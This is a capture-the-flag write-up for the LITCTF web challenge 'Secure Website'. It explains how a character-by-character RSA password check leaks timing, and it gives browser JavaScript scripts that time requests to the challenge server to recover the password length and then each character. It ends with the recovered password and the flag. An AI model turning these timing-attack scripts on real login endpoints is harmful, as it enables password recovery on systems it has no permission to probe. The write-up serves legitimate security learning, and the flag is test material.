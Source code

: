 # web/Secure Website

## Challenge

I have like so many things that I want to do, but I am not sure if I want others to see them yet D: I guess I will just hide all the super important stuff behind my super super fortified and secure [Password Checker](http://litctf.live:31776/)!

[SecureWebsite.zip](https://drive.google.com/uc?export=download&id=1ixlV54JoFOGziLzlOewPBijbtePZo8SI)

## Solution

### Analysis

This is an interesting one! Looking in `main.js`, we see our main and only target:
```js
var flag = (process.env.FLAG ?? "ctf{flag}");
// I like alphanumeric passwords
var password = (process.env.password ?? "password");

/* ... standard Express.js stuff */

app.get('/verify', (req, res) => {
	var pass = req.query.password;
	if(pass == undefined || typeof(pass) !== 'string' || !checkPassword(password,pass)) {
		res.writeHead(302, {'Location': 'https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley'});
		res.end();
		return;
	}
	res.render("secret",{flag: flag});
});
```

Hm... to simple and standard to exploit here. We'll look at `checkPassword()` in `passwordChecker.js`:
```js
// I think this is how you're supposed to implement RSA?
// IDK this is a web challenge not a crypto challenge :clown:
// I just picked 2 random prime numbers as the tutorial said
// (Or is it 0_0)

/* ... blah blah some standard RSA code */

function checkPassword(password,pass) {
	var arr = pass.split(",");
	for(var i = 0;i < arr.length;++i) {
		arr[i] = parseInt(arr[i]);
	}

	if(arr.length != password.length) return false;
	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
}
```
...well, that's interesting. As the top of the file hints, the RSA decryption is basic and standard, and we're given all public and private values so it's basically pointless.

But it's used weirdly... each _individual_ character is decrypted, one at a time, and the moment there's a mismatch, the function returns `false`. So it's seemingly even more pointless...

Except it seems there's really nowhere to exploit. `pass` must be a string, so we can't inject anything into this function. `NaN` won't break anything either.

But comparing strings character-by-character with an inefficient process that returns as soon as a mismatch is found? This sounds like a <u>timing attack</u>!

### Attack

For reference, how the password is encoded for transmission (`views/index.ejs`):
```js
function submitForm() {
    var pwd = $("#password").val();
    var arr = [];
    for(var i = 0;i < pwd.length;++i) {
        arr.push(encryptRSA(pwd.charCodeAt(i)));
    }
    window.location.href = "/verify?password=" + arr.join();
    return;
}
```
Since `checkPassword()` first checks lengths, we need to find the password length first before guessing characters:
```js
(async () => { // IIFE (to use await) not necessary on Chrome
    for (let i = 1; i <= 10; ++i) {
        const pwd = "a".repeat(i);
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join(); // arr.join()
        const t = performance.now(); // timing start
        await fetch(`http://litctf.live:31776/verify?password=${q}`, {
            "redirect": "manual", // to ignore the redirect
        });
        console.log(pwd, performance.now()-t); // timing end
        await new Promise(resolve => setTimeout(resolve, 2000)); // timeout to avoid rate limits
    }
})()
```
Rate limits were a bit annoying - they can show up as `429 Too Many Requests`, but they also randomly increase timings with no errors. However, looking at results, it's obvious whether rate limits affected it.

![](./timing.png)
Oh, yeah. The first request is always much slower for some reason, but the password isn't gonna be one character, right???

But anyway, hooray! `aaaaaa` has a clear difference! And the rest are almost constant, no need to average trials. We move on:
```js
(async () => {
    for (let c of "AABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `${c}aaaaa`;
/* the same thing */
```
(The first letter is to avoid the slow first request.)

But yay! `Caaaaa` has a significant difference (~1024 vs ~200), and we move on, testing `C${c}aaaa` and so on. (It's only 6 characters total, so it's not worthy to automate, especially since random outliers rarely appear.)

4 more rounds later (with requests taking longer and longer), we get `CxIj6_`. The last character is tricky, because a success won't mean another character check; instead, we will get sent to the flag!
```js
await (async () => {
    for (let c of "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `CxIj6${c}`;
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join();
        try {
            const res = await fetch(`http://litctf.live:31776/verify?password=${q}`, {
                "redirect": "error", // so only the correct one doesn't error
            });
            return await res.text();
        } catch {}
        console.log(pwd, "failed");
        await new Promise(resolve => setTimeout(resolve, 2000));
    }
})()
```
And for `CxIj6p`...
![](./secret.png)
Yay!

## Flag

`LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}`

## Notes

At first I averaged trials, but then it got painfully slow so I tried just one each and it worked. Also, for the last character, I originally just manually guessed until I got it right! (Lots of rickrolling there...)
